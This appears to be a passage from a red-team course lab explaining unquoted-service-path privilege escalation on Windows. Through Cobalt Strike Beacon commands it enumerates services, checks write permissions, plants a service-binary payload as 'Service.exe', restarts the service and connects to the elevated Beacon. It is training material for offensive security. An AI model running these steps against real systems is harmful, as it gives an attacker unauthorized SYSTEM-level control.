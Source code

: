 An unquoted service path is where the path to the service binary is not wrapped in quotes. Why is that a problem? By itself it's not, but under specific conditions it can lead to an elevation of privilege.

WMI can be used to pull a list of every service and the path to its executable. Here are some examples:
```shell
beacon> run wmic service get name, pathname

Name                                      PathName
ALG                                       C:\Windows\System32\alg.exe
AppVClient                                C:\Windows\system32\AppVClient.exe
AmazonSSMAgent                            "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"
[...snip...]
Vuln-Service-1                            C:\Program Files\Vuln Services\Service 1.exe
```

We can see that the paths for **ALG** and **AppVClient** are not quoted, but the path for **AmazonSSMAgent** is. The difference is that this latter path has **spaces** in them. **Vuln-Service-1** has spaces in the path **and** is also not quoted - this is condition #1 for exploitation.

When Windows attempts to read the path to this executable, it interprets the space as a terminator. So it will attempt to execute the following (in order):

1.  `C:\Program.exe`
2.  `C:\Program Files\Vuln.exe`
3.  `C:\Program Files\Vuln Services\Service.exe`

If we can drop a binary into any of those paths, the service will execute it before the real one. Of course there's no guarantee that we have permissions to write into either of them - this is condition #2.

The PowerShell **Get-Acl** cmdlet will show the permissions of various objects (including files and directories).
```shell
beacon> powershell Get-Acl -Path "C:\Program Files\Vuln Services" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vuln Services
Owner  : BUILTIN\Administrators
Group  : WKSTN-1\None
Access : CREATOR OWNER Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  Write, ReadAndExecute, Synchronize
         NT SERVICE\TrustedInstaller Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
Audit  : 
Sddl   : O:BAG:S-1-5-21-689523297-2952850621-452819511-513D:PAI(A;OICIIO;FA;;;CO)(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OIC
         I;0x1201bf;;;BU)(A;CI;FA;;;S-1-5-80-956008885-3418522649-1831038044-1853292631-2271478464)(A;OICI;0x1200a9;;;A
         C)(A;OICI;0x1200a9;;;S-1-15-2-2)
```

We can see from the output that **BUILTIN\\Users** have **Write** access to `C:\Program Files\Vuln Services`.

Payloads to abuse services must be specific "service binaries". We can do this in Cobalt Strike via **Attacks > Packages > Windows Executable (S)** and selecting the **Service Binary** output type.

> I recommend the use of TCP beacons bound to localhost only with privilege escalations.

```shell
beacon> cd C:\Program Files\Vuln Services
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe

beacon> upload C:\Payloads\beacon-tcp-svc.exe
beacon> mv beacon-tcp-svc.exe Service.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe
 282kb    fil     03/03/2021 11:11:27   Service.exe

beacon> run sc stop Vuln-Service-1
beacon> run sc start Vuln-Service-1
```

>Standard users cannot stop or start services by default, so you would usually need to wait for a computer reboot.  This privilege has been granted in the lab for quality of life.

You will not see a Beacon appear automatically. When the service has been started and the Beacon executed, you should see that port you used in your TCP listener configuration (in my case **4444**) is listening on **127.0.0.1**.

```shell
beacon> run netstat -anp tcp
[...snip...]
TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING
```

The Beacon is waiting for us to connect to it, which we do with the **connect** command.
```shell
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.231
```

